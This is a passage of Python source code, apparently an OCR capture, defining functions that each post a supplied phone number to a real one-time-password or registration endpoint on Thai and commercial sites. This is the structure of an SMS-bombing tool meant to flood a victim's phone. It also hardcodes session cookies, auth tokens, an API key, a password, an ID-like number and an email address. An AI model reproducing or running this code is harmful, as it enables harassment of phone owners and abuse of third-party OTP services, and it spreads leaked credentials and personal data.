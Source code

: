     post("https://gettgo.com/sessions/otp_for_sign_up", data={"mobile_number":phone})

    

def api4(phone):

    post("https://api.true-shopping.com/customer/api/request-activate/mobile_no", data={"username": phone})

    

def api5(phone):

    post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})

    

def api6(phone):

    post("http://b226.com/x/code", data={f"phone":phone})



def api7(phone):

    post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")

    

def api8(phone):

    post("https://api.mcshop.com/cognito/me/forget-password",headers={"x-store-token": "mcshop","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, */*","x-auth-token": "O2d1ZXN0OzkyMDIzOTU7YThmNWMyZDE4YThlOTMzOGMyOGMwYWE5ODQwNTBjY2I7Ozs7","x-api-key": "ZU2QOTDkCV5JYVkWXdYFL8niGXB8l1mq2H2NQof3"},json={"username": phone})

    

def api9(phone):

    get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    

def api10(phone):

    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
